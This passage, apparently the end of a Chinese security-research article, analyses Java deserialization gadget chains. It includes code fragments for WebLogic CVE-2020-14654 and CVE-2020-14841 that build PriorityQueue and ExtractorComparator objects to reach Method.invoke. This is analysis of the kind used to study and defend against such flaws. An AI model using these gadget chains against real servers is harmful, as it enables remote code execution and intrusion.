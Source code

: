 除了上面的ysoserial，Weblogic CVE-2020-14654和CVE-2020-14841如下。

### <a class="reference-link" name="Weblogic%20CVE-2020-14654"></a>Weblogic CVE-2020-14654

以PriorityQueue作为入口，ExtractorComparator作为Comparator，调用ExtractorComparator.compare，可通过UniversalExtractor.extract调用invoke。

```
UniversalExtractor extractor = new UniversalExtractor("getDatabaseMetaData()", null, 1);
final ExtractorComparator comparator = new ExtractorComparator(extractor);
final PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2, comparator);
Object[] q = new Object[]`{`rowSet, rowSet`}`;
Reflections.setFieldValue(queue, "queue", q);
Reflections.setFieldValue(queue, "size", 2);
```

### <a class="reference-link" name="Weblogic%20CVE-2020-14841"></a>Weblogic CVE-2020-14841

以PriorityQueue作为入口，ExtractorComparator作为Comparator，调用ExtractorComparator.compare，可通过LockVersionExtractor.extract调用invoke

```
LockVersionExtractor extractor = new LockVersionExtractor(methodAttributeAccessor, "xxx");
ExtractorComparator comparator = new ExtractorComparator(extractor);
PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2, comparator);
Object[] q = new Object[]`{`jdbcRowSet, 1`}`;
Reflections.setFieldValue(queue, "queue", q);
Reflections.setFieldValue(queue, "size", 2);
```

仔细观察其实可以看到每个PriorityQueue都是添加了2个元素，不难理解，在PriorityQueue.heapify中必须要有2个及以上元素才会调用siftDown，并且比较也必须是至少两个元素的比较。



## 四、总结

在第三部分分析的所有gadget中，除了CommonsCollections4外，都有一个共同点：从`PriorityQueue.siftDownUsingComparator`调用比较器的compare方法，最终到危险方法Method.invoke，我们可以通过构造Comparator完成动态执行。

```
PriorityQueue.siftDownUsingComparator -&gt; Comparator.compare -&gt; XxxComparator.compare -&gt;... -&gt;Method.invoke
```



## 参考链接：

[https://zhuanlan.zhihu.com/p/25843530](https://zhuanlan.zhihu.com/p/25843530)<br>[https://blog.csdn.net/kobejayandy/article/details/46832797](https://blog.csdn.net/kobejayandy/article/details/46832797)<br>[https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)
